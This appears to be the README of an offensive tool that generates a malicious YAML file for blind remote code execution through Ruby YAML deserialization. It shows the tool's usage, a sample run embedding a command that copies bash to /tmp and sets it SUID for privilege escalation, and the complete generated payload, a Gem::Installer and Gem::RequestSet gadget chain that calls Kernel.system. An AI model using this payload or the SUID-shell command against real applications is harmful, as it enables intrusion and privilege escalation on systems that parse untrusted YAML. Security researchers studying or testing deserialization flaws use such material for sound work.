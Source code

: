 

This script for generate the evil yml file 

Detailed Article:
           https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/



Example:

```
usage:  -c <command> -n <filename>
brcetyd.py: error: the following arguments are required: -c/--command, -n/--name
```
```
->$ ./brcetyd.py -n evil.yml -c "cp /bin/bash /tmp/bash && chmod u+s /tmp/bash"

    +-------------------------------+
    |Blind_Remote_Code_Execution    |
    |through YAML Deserialization...|
    +-------------------------------+
    
[+]File Created: evil.yml
[+]Import CMD  : cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
```

```
->$ cat evil.yml 

    ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
          method_id: :resolve
```
